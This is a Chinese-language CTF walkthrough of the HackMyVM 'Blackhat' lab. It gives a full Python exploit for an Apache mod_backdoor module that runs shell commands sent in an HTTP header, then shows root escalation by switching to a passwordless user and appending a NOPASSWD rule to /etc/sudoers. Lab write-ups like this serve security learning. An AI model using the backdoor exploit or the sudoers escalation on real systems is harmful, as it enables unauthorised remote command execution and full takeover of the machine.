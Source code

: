 # Blackhat

2025.02.16 https://hackmyvm.eu/machines/machine.php?vm=Blackhat

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

只有一个 web，gobuster 扫描看到 2 个文件：

```
http://192.168.5.40/image.jpg            (Status: 200) [Size: 13314]
http://192.168.5.40/phpinfo.php          (Status: 200) [Size: 69318]
```

phpinfo.php 中源码没有隐藏信息，在看 php 的配置信息时发现 Loaded Modules 中有一个 mod_backdoor 模块，搜索一下看看时什么不常见的模块，经过搜索，发现了一个可以进行漏洞利用的 exp：

https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor/blob/main/exploit.py

```python
import requests
import sys


def exploit(host, port, command):
    headers = {"Backdoor": command}
    url = f"http://{host}:{port}/"
    response = requests.get(url, headers=headers)
    text = response.text
    print(text)


def main():
    if len(sys.argv) != 3:
        print("Usage : ")
        print("\tpython %s [HOST] [PORT]" % (sys.argv[0]))
        exit(1)
    host = sys.argv[1]
    port = int(sys.argv[2])
    while True:
        command = input("$ ")
        if command == "exit":
            break
        exploit(host, port, command)


if __name__ == "__main__":
    main()
```

执行后，得到了 shell 执行权限：

```
python3 exploit.py 192.168.5.40 80
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

进行系统枚举，linpeas 没发现其他有用信息，发现 /etc/sudoers 文件设置过 acl：

```
getfacl -R -s -p / 2>/dev/null

# file: //etc/sudoers
# owner: root
# group: root
user::r--
user:darkdante:rw-
group::r--
mask::rw-
other::---
```

发现 darkdante 用户可以对 sudoers 文件修改，同时其他什么信息都没有，只有尝试 su 切换到 darkdante 看看能不能行，然后 darkdante 用户是空密码就可以切换，所以先得到了 user flag：

```
su darkdante
darkdante@blackhat:~$ cat user.txt
89fac491dc9bdc5fc4e3595dd396fb11
```

然后直接写权限到 sudoers 文件中：

```
darkdante@blackhat:~$ echo 'darkdante ALL=(ALL)NOPASSWD:ALL' >> /etc/sudoers
darkdante@blackhat:~$ sudo su
root@blackhat:/home/darkdante# cd /root
root@blackhat:~# ls
root.txt
root@blackhat:~# cat root.txt
8cc6110bc1a0607015c354a459468442
```

最后回顾下 /etc/shadow 发现 darkdante 用户的第二个字段为空，根本就没有设置密码，`darkdante::19307:0:99999:7:::`。
